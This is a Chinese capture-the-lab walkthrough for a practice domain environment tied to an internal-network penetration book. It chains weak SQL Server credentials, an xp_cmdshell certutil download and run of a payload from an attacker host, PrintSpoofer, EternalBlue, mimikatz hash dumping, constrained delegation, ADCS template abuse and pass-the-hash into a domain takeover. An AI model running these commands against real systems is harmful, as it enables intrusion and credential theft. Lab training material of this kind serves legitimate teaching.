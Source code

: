 # 《内网渗透体系建设》简易教学练习环境WP

By WHOAMI、Venenof7

## Web01

部署好全部虚拟机后，首先扫描本地存活主机，以发现 Web01 的地址：

```
./fscan.exe -np -h 192.168.162.1/24
# 因为 Web01 开了防火墙，所以需要指定 -np 禁止 ping
```

![image-20240222121702332](./images/image-20240222121702332.png)

先访问 80 端口：

![image-20240222115713142](./images/image-20240222115713142.png)

1433 端口上存在 SQL Server 弱口令，用sa/123456即可成功登录。然后通过 xp_cmdshell 执行系统命令即可：

```sql
/* 判断当前是否为 DBA 权限，返回 1 则可以提权 */
SELECT IS_SRVROLEMEMBER('sysadmin');

/* 查看是否存在 xp_cmdshell，返回 1 则存在 */
SELECT COUNT(*) FROM master.dbo.sysobjects WHERE xtype='x' AND name='xp_cmdshell'

/* 开启 xp_cmdshell */
EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 1;RECONFIGURE;

/* 执行系统命令 */
EXEC master.dbo.xp_cmdshell 'cd C:\Users\Public & certutil -urlcache -split -f http://192.168.162.130:8080/she1l.exe';

EXEC master.dbo.xp_cmdshell 'C:\Users\Public\she1l.exe'
```

成功上线 Web01 这台服务器：

![image-20240222121422282](./images/image-20240222121422282.png)

由于此时是服务账户权限，我们可以通过 Windows 令牌操纵技术获取 System 权限。上传 PrintSpoofer.exe，然后执行以下命令即可提升至系统权限：

```
PrintSpoofer.exe -i -c cmd
```

![image-20240222122220971](./images/image-20240222122220971.png)

## 内网存活扫描

我们发现一个内网网段 172.22.10.1/24：

![image-20240222122300181](./images/image-20240222122300181.png)

上传 fscan 扫描内网：

![image-20240222122441289](./images/image-20240222122441289.png)

![image-20240222122451598](./images/image-20240222122451598.png)

发现内网存活的主机，并且存在域环境，域名为 aerospace.local，域控制器为 DC01.aerospace.local，IP 为 172.22.10.11。

此外，还存在 ADCS，证书颁发机构为 CA.aerospace.local。

## WIN-PC8086

WIN-PC8086 这台域成员机器存在 MS17_010 漏洞，ip为 172.22.10.36，使用 msf 挂上代理，用 bind_tcp 类型的 payload 直接打：

```
use exploit/windows/smb/ms17_010_eternalblue
set payload windows/x64/meterpreter/bind_tcp
set rhosts 172.22.10.36
set lport 4444
run
```

成功获取 SYSTEM 权限：

![image-20240222122857732](./images/image-20240222122857732.png)

由于这台机器位于域内，因此我们可以用他的机器账户收集域内信息。加载 kiwi 模块，抓取 WIN-PC8086 计算机账户的哈希值：

```
load kiwi
kiwi_cmd "sekurlsa::logonpasswords"
```

![image-20240222124817297](./images/image-20240222124817297.png)

然后，使用 [Impacket](https://github.com/fortra/impacket) 套件中的 findDelegation.py 枚举域内委派关系：

```bash
python3 findDelegation.py aerospace.local/WIN-PC8086\$ -hashes :b237d77097aeca12476045a167ac1e1d -dc-ip 172.22.10.11
```

![image-20240222125323210](./images/image-20240222125323210.png)

发现当前的 WIN-PC8086 机器对域内 WIN-PC8098 这台机器的 HOST 和 CIFS 服务具有约束委派权限，因此可以通过约束委派获取 WIN-PC8098 的权限。

## WIN-PC8098

我们使用 [Impacket](https://github.com/fortra/impacket) 套件中的 getST.py 脚本进行约束委派攻击。执行以下命令，使用 WIN-PC8086 账户代表域管理员用户 Administrator 获取 WIN-PC8098 机器上 CIFS 服务的票据：

```bash
python3 getST.py aerospace.local/WIN-PC8086\$ -hashes :b237d77097aeca12476045a167ac1e1d -spn CIFS/WIN-PC8098.aerospace.local -impersonate Administrator -dc-ip 172.22.10.11
```

![image-20240222125738235](./images/image-20240222125738235.png)

成功申请到票据后，通过设置环境变量 `KRB5CCNAME` 来使用该票据，并通过 wmiexec.py 获取 WIN-PC8098 机器的最高权限：

```bash
export KRB5CCNAME='Administrator@CIFS_WIN-PC8098.aerospace.local@AEROSPACE.LOCAL.ccache'
python3 wmiexec.py -k aerospace.local/Administrator@WIN-PC8098.aerospace.local -no-pass -dc-ip 172.22.10.11
```

![image-20240222130846243](./images/image-20240222130846243.png)

在 WIN-PC8098 机器上发现了一个域用户 liuyuhua 的进程：

![image-20240222132551554](./images/image-20240222132551554.png)

然后考虑上传 mimikatz 抓取该用户的哈希值。由于该机器开启了 Windows defender，可以考虑新建一个管理员用户登录到远程桌面，然后将 Windows defender 关闭后在运行 mimikatz。

抓取到 liuyuhua 的哈希值为 2c8e4ec4d8a61869d85c7921c6076dfd：

![、](./images/image-20240222133044952.png)

## DC01

由于环境中存在 ADCS 服务，因此考虑通过 [Certify](https://github.com/GhostPack/Certify) 枚举错误配置。还是在 WIN-PC8098 机器上，，然后执行以下命令：

```
Certify.exe find /vulnerable
```

![image-20240222134937394](./images/image-20240222134937394.png)

发现一个名为 AeroUser 的证书模板，开启了 `CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT` 标志，并且所有的域用户账户都有注册权限。那么我们可以以域内任何用户的身份请求证书，包括域管理员用户或域控制器的机器账户，并使用该证书获取合法用户的 TGT，一次实现域权限提升。

执行以下命令，通过 [Certipy](https://github.com/ly4k/Certipy) 工具为域管理员用户申请证书：

```bash
certipy-ad req -username liuyuhua@aerospace.local -hashes :2c8e4ec4d8a61869d85c7921c6076dfd -ca aerospace-CA-CA -target CA.aerospace.local -template AeroUser -upn Administrator@aerospace.local -dns DC01.aerospace.local -debug
```

![image-20240222140815015](./images/image-20240222140815015.png)

申请到了名为 administrator_dc01.pfx 的证书，然后执行以下命令，通过该证书进行 kerberos 身份验证，可以成功拿到域管理员用户的 TGT 票据和 NTLM 哈希：

```bash
certipy-ad auth -pfx administrator_dc01.pfx -dc-ip 172.22.10.11
```

![image-20240222141014583](./images/image-20240222141014583.png)

可以看到，已经成功拿到了域管理员的 NTLM 哈希，接下来直接哈希传递即可获取域控制器权限了：

```BASH
python3 wmiexec.py aerospace.local/Administrator@dc01.aerospace.local -hashes aad3b435b51404eeaad3b435b51404ee:4e4b335d557d9c79bc419490672102b2 -dc-ip 172.22.10.11
```

![image-20240222141221545](./images/image-20240222141221545.png)

## CA

同样是哈希传递，可以获取 CA 的权限：

```
python3 wmiexec.py aerospace.local/Administrator@ca.aerospace.local -hashes aad3b435b51404eeaad3b435b51404ee:4e4b335d557d9c79bc419490672102b2 -dc-ip 172.22.10.11
```

![image-20240222141327594](./images/image-20240222141327594.png)
